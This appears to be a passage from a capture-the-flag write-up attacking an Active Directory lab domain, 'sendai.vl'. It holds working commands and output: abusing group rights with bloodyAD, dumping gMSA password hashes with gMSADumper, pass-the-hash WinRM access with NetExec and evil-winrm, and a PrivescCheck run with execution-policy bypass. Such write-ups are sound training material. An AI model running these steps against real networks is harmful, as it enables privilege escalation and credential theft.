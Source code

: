 ![alt text](<../assets/images/3 (1).png>)

we have  ReadGMSAPassword

## GenericAll (add user group)

    (myenv) ➜  bloodyAD bloodyAD -d sendai.vl --host 10.10.65.237 -u Elliot.Yates -p Password123! add groupMember ADMSVC Elliot.Yates
    [+] Elliot.Yates added to ADMSVC

### GMSAdumper

    ➜  gMSADumper git:(main) python3 gMSADumper.py -u 'Elliot.Yates' -p 'Password123!' -d sendai.vl
    Users or groups who can read password for mgtsvc$:
    > admsvc
    mgtsvc$:::ce0b2ff6ebd759c1b0<redacted>
    mgtsvc$:aes256-cts-hmac-sha1-96:31aadec6c9cae2c03f9854ebd5b2d30c977ef3cc581c7916ef4e117dbdee820f
    mgtsvc$:aes128-cts-hmac-sha1-96:9e8e656f855314bf46064861f59a8c0d

mgtsvc$

    ➜  sendai nxc winrm DC -u mgtsvc$ -H ce0b2ff6ebd759<redacted>
    WINRM       10.10.65.237    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl)
    WINRM       10.10.65.237    5985   DC               [+] sendai.vl\mgtsvc$:ce0b2ff6ebd7<redacted> (Pwn3d!)

#### winrm shell 

    ➜  sendai evil-winrm -i DC -u mgtsvc$ -H ce0b2ff6ebd759c<redacted>
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\mgtsvc$\Documents> 

there is ca-operators groups so for ADCS attack i chceked which user we need.

![alt text](<../assets/images/4 (1).png>)

We have no idea about Clifford so lets try to get him password

https://github.com/itm4n/PrivescCheck

### privesc.ps1

    *Evil-WinRM* PS C:\Users\mgtsvc$\Documents> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"

and download .html file and look at here;
